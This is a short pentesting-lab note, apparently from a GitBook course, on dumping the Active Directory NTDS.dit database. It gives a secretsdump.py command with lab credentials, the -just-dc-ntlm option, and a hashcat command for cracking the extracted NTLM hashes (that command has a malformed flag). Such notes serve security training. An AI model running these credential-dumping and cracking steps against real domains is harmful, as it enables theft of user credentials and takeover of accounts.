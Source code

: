 # 🥟 Dumping the NTDS.dit

NTDS.dit is a database file used by Microsoft Active Directory (AD) to store information about objects in the directory, such as users, groups, and computers. NTDS stands for "NT Directory Service", and .dit is the file extension for the Directory Information Tree (DIT) database used by AD

<figure><img src="../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The NTDS.dit file contains a hierarchical structure of objects, attributes, and their relationships. It includes information about the object's security principals, such as their permissions, access control lists, and group memberships. The NTDS.dit file is used by the AD Domain Services (AD DS) to authenticate and authorize users and services, as well as to manage directory replication and other directory-related tasks.

```
secretsdump.py MARVEL.local/fcastle:'Password1'@192.168.138.136
```

<figure><img src="../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And to dump out only the NTDS.DIT, you add  `-just-dc-ntlm`

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

when cracking a hash in this context we're only interested in this part at the end

So there are plenty of ways to only grep out the hashes of the users, excel, sublime text, bash etc...

you can copy and paste all those hashes in a txt file and run hashcat on it:

```
hashcat -m 1000 -ntdsHash.txt /usr/share/wordlist/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (20) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You can add a `--show` so it only outputs the hashes and their clear text
